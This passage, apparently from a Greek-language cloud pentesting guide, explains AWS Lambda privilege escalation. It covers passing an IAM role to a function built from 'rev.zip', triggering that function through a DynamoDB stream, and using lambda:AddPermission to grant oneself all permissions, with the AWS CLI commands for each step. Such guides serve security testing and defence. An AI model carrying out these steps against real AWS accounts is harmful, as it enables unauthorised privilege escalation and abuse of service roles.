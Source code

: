 Αντί να καλέσουν απευθείας τη Lambda, ο χρήστης δημιουργεί ή χρησιμοποιεί έναν υπάρχοντα πίνακα DynamoDB, συνδέοντάς τον με τη Lambda μέσω ενός χαρτογραφήματος πηγής συμβάντος. Αυτή η ρύθμιση εξασφαλίζει ότι η λειτουργία Lambda ενεργοποιείται αυτόματα με την εισαγωγή ενός νέου στοιχείου στον πίνακα, είτε με την ενέργεια του χρήστη είτε με άλλη διαδικασία, εκτελώντας έτσι έμμεσα τη λειτουργία Lambda και εκτελώντας τον κώδικα με τα δικαιώματα του περασμένου ρόλου IAM.
```bash
aws lambda create-function --function-name my_function \
--runtime python3.8 --role <arn_of_lambda_role> \
--handler lambda_function.lambda_handler \
--zip-file fileb://rev.zip
```
Αν το DynamoDB είναι ήδη ενεργό στο περιβάλλον του AWS, ο χρήστης χρειάζεται μόνο **να καθιερώσει την αντιστοίχιση πηγής συμβάντος** για τη λειτουργία Lambda. Ωστόσο, αν το DynamoDB δεν χρησιμοποιείται, ο χρήστης πρέπει **να δημιουργήσει έναν νέο πίνακα** με ενεργοποιημένη τη ροή:
```bash
aws dynamodb create-table --table-name my_table \
--attribute-definitions AttributeName=Test,AttributeType=S \
--key-schema AttributeName=Test,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```
Τώρα είναι δυνατόν **να συνδέσετε τη Lambda λειτουργία με τον πίνακα DynamoDB** με το **δημιουργώντας έναν χαρτογράφηση πηγής συμβάντος**:
```bash
aws lambda create-event-source-mapping --function-name my_function \
--event-source-arn <arn_of_dynamodb_table_stream> \
--enabled --starting-position LATEST
```
Με τη Lambda λειτουργία που συνδέεται με τη ροή του DynamoDB, ο επιτιθέμενος μπορεί **άμεσα να ενεργοποιήσει τη Lambda ενεργοποιώντας τη ροή του DynamoDB**. Αυτό μπορεί να επιτευχθεί **εισάγοντας ένα στοιχείο** στον πίνακα του DynamoDB:
```bash
aws dynamodb put-item --table-name my_table \
--item Test={S="Random string"}
```
**Πιθανή Επίδραση:** Άμεση ανύψωση προνομίων στον ρόλο υπηρεσίας lambda που καθορίζεται.

### `lambda:AddPermission`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί **να χορηγήσει στον εαυτό του (ή σε άλλους) οποιεσδήποτε άδειες** (αυτό δημιουργεί πολιτικές βασισμένες σε πόρους για τη χορήγηση πρόσβασης στον πόρο):

{% code overflow="wrap" %}
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda invoke --function-name <func_name> /tmp/outout
```
{% endcode %}
